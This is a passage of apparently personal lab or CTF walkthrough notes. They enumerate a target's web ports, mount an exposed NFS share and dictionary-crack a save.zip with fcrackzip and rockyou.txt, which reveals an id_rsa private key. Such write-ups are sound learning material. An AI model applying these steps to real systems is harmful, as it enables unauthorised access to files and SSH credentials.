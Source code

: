 ## Port 80 http webpage - Bolt installation error page
![image](https://github.com/user-attachments/assets/3ae0bf0f-8ac5-417e-a362-29b70d60f376)

## Port 8080 PHP version and Debian system - suggesting this is a Linux operating system
![image](https://github.com/user-attachments/assets/dd7f8629-cbd4-4c1e-b831-5f9ba92750a1)

## 2049 NFS

    install:
    sudo apt update && sudo apt install nfs-common -y

    Check Available NFS Shares:
    showmount -e 192.168.64.135
![image](https://github.com/user-attachments/assets/011c86b2-a08a-4777-8d3f-83599e942acd)

    Create a Mount Point: Create a directory where you will mount the NFS share:
    mkdir -p /home/kali/nfs_mount

    mount -t nfs 192.168.64.135:/srv/nfs /home/kali/nfs_mount
![image](https://github.com/user-attachments/assets/43fd4e7e-49ad-4775-8b07-e55c0acbed11)

#TBC here. Now that we have managed to get into the NFS and found a save.zip file, we need to crack it.
    
## Download fcrackzip - a lightweight .zip file type cracking tool.

    root@kali:/home/kali/nfs_mount# apt update && apt install fcrackzip -y

    install dirbuster word lists
    sudo apt update
    sudo apt install dirbuster -y

## looks like there are some issues locating the dirbuster wordlist in this instance. So will we use rockyou.txt instead.

    root@kali:/home/kali/nfs_mount# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
    
    -v Verbose
    -u Attempts to unzip with potential password
    -D Instructs it to be a dictionary attack
    -p Pathway to wordlist

    root@kali:/home/kali/nfs_mount# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
    found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
    found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)
    
    